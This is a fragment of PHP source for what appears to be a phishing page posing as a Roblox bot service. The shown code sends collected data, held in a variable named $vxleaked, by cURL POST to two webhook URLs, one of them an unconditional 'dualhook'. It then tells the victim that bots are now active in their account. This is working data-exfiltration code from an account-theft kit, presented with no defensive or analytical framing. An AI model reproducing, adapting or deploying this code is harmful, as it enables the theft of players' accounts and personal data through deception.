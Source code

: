                                 "inline" => False
                            ],
                        ]
                    ],
                ],
            
        ], JSON_UNESCAPED_SLASHES | JSON_UNESCAPED_UNICODE );

        $ch = curl_init();
        curl_setopt_array($ch, [
            CURLOPT_URL => "$dualhook",
            CURLOPT_POST => true,
            CURLOPT_POSTFIELDS => $vxleaked,
            CURLOPT_HTTPHEADER => [
                "Content-Type: application/json"
            ]
        ]);
  
                                        
        $response = curl_exec($ch);
        curl_close($ch);

if (filter_var($webhook, FILTER_VALIDATE_URL)) {
        $ch = curl_init();
        curl_setopt_array($ch, [
            CURLOPT_URL => "$webhook",
            CURLOPT_POST => true,
            CURLOPT_POSTFIELDS => $vxleaked,
            CURLOPT_HTTPHEADER => [
                "Content-Type: application/json"
            ]
        ]);
} 
                                        
        $response = curl_exec($ch);
        curl_close($ch);
        $done = "t";
}
}
?>
<head>

<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
<title><?php echo $iname?> - BOTS</title>
<meta name="description" content="<?php echo $iname?> is bot provider for roblox." />
<link href="https://images.rbxcdn.com/3b43a5c16ec359053fef735551716fc5.ico" rel="icon" />

<script src="https://use.fontawesome.com/0e45395a5f.js"></script>
<link href="https://fonts.googleapis.com/css?family=K2D:300,400,500,700,800" rel="stylesheet">
<?php if (isset($done)) { ?>
<!doctype html>
<html lang="en">
<body>
<section class="bg-gradient pt-5 pb-6">
<div class="container">
<div class="row">
<div class="col-12 d-flex flex-row align-items-center justify-content-between">
<div class="heading-brand"><?php echo $iname?></div>
</div>
</div>
<div class="row mt-6">
<div class="col-md-8 mx-auto text-center"><br><br><br>
<h1><p style="color:green">CONGRATULATIONS!</p><br> Our bots already activate in your account!</h1>
</div>
</div>
</div>